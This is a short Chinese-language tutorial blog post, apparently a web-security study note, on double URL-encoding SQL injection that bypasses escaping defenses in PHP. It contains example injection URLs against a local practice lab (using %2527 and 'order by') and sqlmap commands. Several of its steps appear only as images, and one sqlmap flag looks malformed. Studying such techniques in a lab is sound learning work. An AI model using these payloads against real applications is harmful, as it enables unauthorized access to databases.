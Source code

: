 ```yaml
---
layout: post
title: 1.4.2-SQL注入防御绕过-二次编码注入
category: 
  - web安全
tags: 
  - sql注入
abbrlink: 41038608
date: 2018-07-06 00:00:00
description: more
---
```


## 01 二次编码注入原理

+，=，&，；  
原始数据不适合传输  

	index.php?id=1&name=admin&pwd=123

	name=admin=
	name=admin&

	admin=

	php urldecode('%3d') --> =

	// 如果这样的参数会引起歧义

php会自动解码  

二次编码注入：  
urldecode()与PHP本身处理编码时，两者配合失误，可构造数据消灭\  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/02.png)




## 02 二次编码注入方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/03.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/04.png)


	http://127.0.0.1/Less-1/double.php?id=1%2527 // 测试注入点
	http://127.0.0.1/Less-1/double.php?id=1%2527%20order%20by%203 //测试长度
	http://127.0.0.1/Less-1/double.php?id=1%27 order by 4--+
	http://127.0.0.1/


	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%25"

	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%2527" --current--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/10/05.png)

